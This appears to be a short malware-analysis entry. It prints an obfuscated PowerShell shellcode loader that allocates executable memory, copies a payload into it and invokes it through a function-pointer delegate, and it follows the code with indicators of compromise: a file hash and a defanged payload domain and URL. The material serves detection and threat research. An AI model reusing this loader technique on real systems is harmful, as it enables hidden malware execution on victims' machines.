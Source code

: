```vbs
$Nonmethodically = Platinamine $Konfererende $Premeasure
$GutsilyllocType=-13794+26082
$GutsilyllocProt=-50897+50961
$Gutsilyllocrw=-28683+28687
Irvings27 '$global:Resultaterne = $Headroom.Invoke($Indvendendes, 655, $GutsilyllocType, $GutsilyllocProt)' 1
Irvings27 '$global:Arbejdsbyrder = $Headroom.Invoke($Indvendendes, 26640384, $GutsilyllocType, $Gutsilyllocrw)' 1
Irvings27 '[System.Runtime.InteropServices.Marshal]::Copy($Okkuperingers, $Indvendendes,  $Resultaterne, 655)' 1
$Divergence=284535-655
Irvings27 '[System.Runtime.InteropServices.Marshal]::Copy($Okkuperingers, 655, $Arbejdsbyrder, $Divergence)' 1
Irvings27 '$global:Erobringstogt = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Platinamine $Squalidness $Froprdiken), (Taenkte @([IntPtr], [IntPtr], [IntPtr], [IntPtr], [IntPtr]) ([IntPtr])))' 1
Irvings27 '$Erobringstogt.Invoke($Resultaterne,$Arbejdsbyrder,$Nonmethodically,$Indvendendes,$Indvendendes)' 1 
```


# IOCs

- Hash:
```
5a4ef048a5e3b38a1cfe3813955c1770
```
- URL
```
shereihnao[.]ru[.]com
hxxp://shereihnao[.]ru[.]com/Bededagsferier[.]hhk
```

